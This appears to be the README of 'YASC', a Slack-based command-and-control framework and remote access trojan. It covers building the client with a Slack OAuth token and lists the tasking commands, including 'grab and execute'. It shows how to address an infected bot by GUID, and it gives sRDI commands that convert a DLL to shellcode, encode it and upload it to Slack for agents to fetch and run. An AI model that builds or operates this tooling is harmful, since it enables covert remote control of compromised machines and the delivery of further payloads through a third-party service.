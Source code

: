 
# YASC

Yet Another Slack C2

## Credits

Some of the supporting code was borrowed from the POCO library. The comments were stripped from all code, which removed the licensing from the files. Should probably put that back.

JSON library credit to https://github.com/nlohmann/json

## Build

### Requirements

If you wish to package a file for execution, you will need sRDI: `git clone https://github.com/monoxgas/sRDI.git`

- Visual Studios 2019

### HOWTO

Create yasc\clients\cpp\cpp\slack_auth.txt

with contents (no spaces, no quotes, no endline):
```
STR(<oauth token>)
```

e.g. STR(abcd-123456)

It should build out of the box. Just build the cpp project.

## Controlling

All of the commands currently implemented are in rat.cpp:get_tasking()

```
if (todo._Starts_with("gtfo"))
else if (todo._Starts_with("who am i"))
else if (todo._Starts_with("be quiet"))
else if (todo._Starts_with("start talking"))
else if (todo._Starts_with("talk every "))
else if (todo._Starts_with("grab and execute "))
```

To talk to a specific bot: Hey \<GUID\>, \<command\> \<parameters\>

e.g.: Hey IPxxzxcevaIT, gtfo

One day we will move those out and just pass the `todo` line to another function that will process them based on a defined yaml file that is shared between all clients and the controller... One day.

To have it load a second stage:

```
> cd sRDI\Python
sRDI\Python> py ConvertToShellcode.py <path_to_dll>
# That created <path_to_dll>.bin

sRDI\Python> cd solo.ranger\controller
yasc\controller> py gen_stage2.py <path_to_dll>.bin <path_to_dll>_encoded.bin
# <path_to_dll>_encoded.bin now contains "an encoded shellcode" 
# Upload to slack and "grab and execute" by an agent
```